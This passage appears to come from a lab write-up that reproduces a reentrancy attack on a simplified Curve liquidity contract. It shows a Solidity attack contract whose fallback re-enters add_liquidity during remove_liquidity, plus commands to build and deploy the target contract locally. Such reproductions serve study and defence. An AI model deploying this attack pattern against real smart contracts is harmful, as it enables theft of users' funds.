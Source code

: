 #### 3.2 contracts/attack.sol

This is a simplified version of attack contract implemented in solidity. It will try to start a reentrant attack through
the `remove_liquidity` with its fallback function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.2 <0.9.0;

interface CurveContract {
    function add_liquidity() external;

    function remove_liquidity() external;
}

contract Attack {
    CurveContract public curve;

    constructor(address _curveContract) {
        curve = CurveContract(_curveContract);
    }

    function attack() external payable {
        curve.remove_liquidity();
    }

    fallback() external {
        curve.add_liquidity();
    }
}

```

#### 3.3 Deploy Curve Contract

```shell

mkdir -p ./build/contract

## build curve contract
vyper -f abi ./contracts/curve.vy > build/contract/CurveContract.abi && vyper ./contracts/curve.vy > build/contract/CurveContract.bin
 
## deploy contract
npm run contract:deploy -- --abi ./build/contract/CurveContract.abi  --bytecode ./build/contract/CurveContract.bin  --skfile ./curve_accounts.txt
```

The result of the execution can be obtained from the contract address, for example

```shell
...
--contractAccount 0xaa19F4957C890518b577205c41C706F1c07fa0cc --contractAddress 0xFe4b65F17554B45eF7D146B86E030da7A4e250bb
```

